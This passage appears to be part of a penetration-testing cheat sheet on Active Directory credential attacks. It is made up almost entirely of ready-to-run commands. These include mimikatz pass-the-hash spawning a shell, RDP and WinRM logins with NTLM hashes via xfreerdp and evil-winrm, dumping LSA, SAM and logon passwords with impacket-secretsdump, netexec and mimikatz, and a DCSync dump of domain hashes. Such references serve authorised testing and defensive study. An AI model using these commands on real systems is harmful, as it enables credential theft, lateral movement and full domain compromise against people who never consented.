 - Pass-the-Hash

```c
.\mimikatz.exe "privilege::debug" "sekurlsa::pth /user:<USER> /domain:<DOMAIN> /ntlm:<HASH> /run:\"cmd.exe\"" "exit"
```

**NOTE:** if you run the whoami command on this shell, it will still show you the original user you were using before doing PtH, but any command run from here will actually use the credentials we injected using PtH/

#### Other Techniques (Pass-the-Hash)

- Connect to RDP using PtH:

```c
xfreerdp /v:VICTIM_IP /u:DOMAIN\\MyUser /pth:NTLM_HASH
```

- Connect to WinRM using PtH:

```c
evil-winrm -i VICTIM_IP -u MyUser -H NTLM_HASH
```

### Credential Gathering and DCSync
---

- Secretsdump

```c
impacket-secretsdump DOMAIN/user:'PASSWORD'@<TARGET-IP> -outputfile
```

- NetExec

```c
netexec smb <target> -u USER -p PASSWORD --lsa --sam
```

- Mimikatz

```c
mimikatz.exe "privilege::debug" "log dump.txt" "sekurlsa::logonPasswords" "exit"
```

#### DCSync
---
The below permissions can be used for DCSync:
- **DS-Replication-Get-Changes**
- **Replicating Directory Changes All**
- **Replicating Directory Changes In Filtered Set**

By default, these permissions are limited to the **Domain Admins**, **Enterprise Admins**, **Administrators** and **Domain Controllers** groups.

- DCSync using **Impacket-Secretsdump**

```python
impacket-secretsdump.py <DOMAIN>/<USER>:'PASSWORD'@<DC-IP> -just-dc -outputfile dcsync.dump 
```

